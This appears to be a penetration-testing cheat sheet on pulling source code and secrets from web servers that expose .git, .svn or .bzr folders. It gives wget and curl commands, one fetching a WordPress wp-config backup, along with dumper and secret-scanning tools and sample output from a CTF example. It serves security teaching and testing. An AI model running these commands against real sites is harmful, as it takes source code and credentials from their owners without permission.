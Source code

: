 # Insecure source code management

- [GIT - Source code management](#git---source-code-management)
  - [Github example with a .git](#github-example-with-a-git)
  - [Automatic way : diggit.py](#automatic-way--diggitpy)
  - [Automatic way : GoGitDumper](#automatic-way-gogitdumper)
  - [Automatic way : rip-git](#automatic-way--rip-git)
  - [Automatic way : GitHack](#automatic-way--githack)
  - [Harvesting secrets : trufflehog](#harvesting-secrets--trufflehog)
  - [Harvesting secrets : Gitrob](#harvesting-secrets--gitrob)
  - [Harvesting secrets : Gitleaks](#harvesting-secrets--gitleaks)
- [SVN - Source code management](#svn---source-code-management)
  - [SVN example (Wordpress)](#svn-example-wordpress)
  - [Automatic way : svn-extractor](#automatic-way--svn-extractor)
- [BAZAAR - Source code management](#bazaar---source-code-management)
  - [Automatic way : rip-bzr](#automatic-way--rip-bzr)
  - [Automatic way : bzr_dumper](#automatic-way--bzr_dumper)

## GIT - Source code management

The following examples will create either a copy of the .git or a copy of the current commit.

Check for the following files, if they exist you can extract the .git folder.

- .git/config
- .git/HEAD
- .git/logs/HEAD

### Github example with a .git

1. Check 403 error (Forbidden) for .git or even better : a directory listing
2. Git saves all informations in log file .git/logs/HEAD (try 'head' in lowercase too)
    ```powershell
    0000000000000000000000000000000000000000 15ca375e54f056a576905b41a417b413c57df6eb root <root@dfc2eabdf236.(none)> 1455532500 +0000        clone: from https://github.com/fermayo/hello-world-lamp.git
    15ca375e54f056a576905b41a417b413c57df6eb 26e35470d38c4d6815bc4426a862d5399f04865c Michael <michael@easyctf.com> 1489390329 +0000        commit: Initial.
    26e35470d38c4d6815bc4426a862d5399f04865c 6b4131bb3b84e9446218359414d636bda782d097 Michael <michael@easyctf.com> 1489390330 +0000        commit: Whoops! Remove flag.
    6b4131bb3b84e9446218359414d636bda782d097 a48ee6d6ca840b9130fbaa73bbf55e9e730e4cfd Michael <michael@easyctf.com> 1489390332 +0000        commit: Prevent directory listing.
    ```
3. Access to the commit based on the hash -> a directory name (first two signs from hash) and filename (rest of it).git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c,
    ```powershell
    # create a .git directory
    git init test
    cd test/.git

    # download the file
    wget http://xxx.web.xxx.com/.git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c
    mkdir .git/object/26
    mv e35470d38c4d6815bc4426a862d5399f04865c .git/objects/26/

    # display the content of the file
    git cat-file -p 26e35470d38c4d6815bc4426a862d5399f04865c
        tree 323240a3983045cdc0dec2e88c1358e7998f2e39
        parent 15ca375e54f056a576905b41a417b413c57df6eb
        author Michael <michael@easyctf.com> 1489390329 +0000
        committer Michael <michael@easyctf.com> 1489390329 +0000
        Initial.
    ```
4. Access the tree 323240a3983045cdc0dec2e88c1358e7998f2e39
    ```powershell
    wget http://xxx.web.xxx.com/.git/objects/32/3240a3983045cdc0dec2e88c1358e7998f2e39
    mkdir .git/object/32
    mv 3240a3983045cdc0dec2e88c1358e7998f2e39 .git/objects/32/

    git cat-file -p 323240a3983045cdc0dec2e88c1358e7998f2e39
        040000 tree bd083286051cd869ee6485a3046b9935fbd127c0        css
        100644 blob cb6139863967a752f3402b3975e97a84d152fd8f        flag.txt
        040000 tree 14032aabd85b43a058cfc7025dd4fa9dd325ea97        fonts
        100644 blob a7f8a24096d81887483b5f0fa21251a7eefd0db1        index.html
        040000 tree 5df8b56e2ffd07b050d6b6913c72aec44c8f39d8        js
    ```
5. Read the data (flag.txt)
    ```powershell
    wget http://xxx.web.xxx.com/.git/objects/cb/6139863967a752f3402b3975e97a84d152fd8f
    mkdir .git/object/cb
    mv 6139863967a752f3402b3975e97a84d152fd8f .git/objects/32/
    git cat-file -p cb6139863967a752f3402b3975e97a84d152fd8f
    ```

### Recovering the content of .git/index

Use the git index file parser, using python3 https://pypi.python.org/pypi/gin

```powershell
pip3 install gin
gin ~/git-repo/.git/index
```

Recover name and sha1 hash for each files listed in the index, allowing us to re-use the previous method on the file.

```powershell
$ gin .git/index | egrep -e "name|sha1" 
name = AWS Amazon Bucket S3/README.md
sha1 = 862a3e58d138d6809405aa062249487bee074b98

name = CRLF injection/README.md
sha1 = d7ef4d77741c38b6d3806e0c6a57bf1090eec141
```
 


### Automatic way : diggit.py

```powershell
./diggit.py -u remote_git_repo -t temp_folder -o object_hash [-r=True]
./diggit.py -u http://webpage.com -t /path/to/temp/folder/ -o d60fbeed6db32865a1f01bb9e485755f085f51c1

-u is remote path, where .git folder exists
-t is path to local folder with dummy Git repository and where blob content (files) are saved with their real names (cd /path/to/temp/folder && git init)
-o is a hash of particular Git object to download
```

### Automatic way : GoGitDumper

```powershell
go get github.com/c-sto/gogitdumper
gogitdumper -u http://urlhere.com/.git/ -o yourdecideddir/.git/
git log
git checkout
```

### Automatic way : rip-git

```powershell
perl rip-git.pl -v -u "http://edge1.web.*****.com/.git/"

git cat-file -p 07603070376d63d911f608120eb4b5489b507692  
tree 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
parent 15ca375e54f056a576905b41a417b413c57df6eb
author Michael <michael@easyctf.com> 1489389105 +0000
committer Michael <michael@easyctf.com> 1489389105 +0000

git cat-file -p 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
```

### Automatic way : GitHack

```powershell
git clone https://github.com/lijiejie/GitHack
GitHack.py http://www.openssl.org/.git/
```

### Harvesting secrets : trufflehog

> Searches through git repositories for high entropy strings and secrets, digging deep into commit history

```powershell
pip install truffleHog # https://github.com/dxa4481/truffleHog
truffleHog --regex --entropy=False https://github.com/dxa4481/truffleHog.git
```

### Harvesting secrets : Gitrob

> Gitrob is a tool to help find potentially sensitive files pushed to public repositories on Github. Gitrob will clone repositories belonging to a user or organization down to a configurable depth and iterate through the commit history and flag files that match signatures for potentially sensitive files.

```powershell
go get github.com/michenriksen/gitrob # https://github.com/michenriksen/gitrob
export GITROB_ACCESS_TOKEN=deadbeefdeadbeefdeadbeefdeadbeefdeadbeef
gitrob [options] target [target2] ... [targetN]
```

### Harvesting secrets - Gitleaks

> Gitleaks provides a way for you to find unencrypted secrets and other unwanted data types in git source code repositories.

```powershell
# Run gitleaks against a public repository
docker run --rm --name=gitleaks zricethezav/gitleaks -v -r  https://github.com/zricethezav/gitleaks.git

# Run gitleaks against a local repository already cloned into /tmp/
docker run --rm --name=gitleaks -v /tmp/:/code/  zricethezav/gitleaks -v --repo-path=/code/gitleaks

# Run gitleaks against a specific Github Pull request
docker run --rm --name=gitleaks -e GITHUB_TOKEN={your token} zricethezav/gitleaks --github-pr=https://github.com/owner/repo/pull/9000

or

go get -u github.com/zricethezav/gitleaks
```

## SVN - Source code management

### SVN example (Wordpress)

```powershell
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. Download the svn database from http://server/path_to_vulnerable_site/.svn/wc.db
    ```powershell
    INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
    ```
2. Download interesting files
    * remove \$sha1\$ prefix
    * add .svn-base postfix
    * use first two signs from hash as folder name inside pristine/ directory (94 in this case)
    * create complete path, which will be: `http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base`

### Automatic way : svn-extractor

```powershell
git clone https://github.com/anantshri/svn-extractor.git
python svn-extractor.py –url "url with .svn available"
```

## BAZAAR - Source code management

### Automatic way : rip-bzr.pl

```powershell
wget https://raw.githubusercontent.com/kost/dvcs-ripper/master/rip-bzr.pl
docker run --rm -it -v /path/to/host/work:/work:rw k0st/alpine-dvcs-ripper rip-git.pl -v -u  
```

### Automatic way : bzr_dumper

```powershell
git clone https://github.com/SeahunOh/bzr_dumper
python3 dumper.py -u "http://127.0.0.1:5000/" -o source
Created a standalone tree (format: 2a)                                                                                                                                                       
[!] Target : http://127.0.0.1:5000/
[+] Start.
[+] GET repository/pack-names
[+] GET README
[+] GET checkout/dirstate
[+] GET checkout/views
[+] GET branch/branch.conf
[+] GET branch/format
[+] GET branch/last-revision
[+] GET branch/tag
[+] GET b'154411f0f33adc3ff8cfb3d34209cbd1'
[*] Finish

$ bzr revert
 N  application.py
 N  database.py
 N  static/   
```

## References

- [bl4de, hidden_directories_leaks](https://github.com/bl4de/research/tree/master/hidden_directories_leaks)
- [bl4de, diggit](https://github.com/bl4de/security-tools/tree/master/diggit)
- [Gitrob: Now in Go - Michael Henriksen](https://michenriksen.com/blog/gitrob-now-in-go/)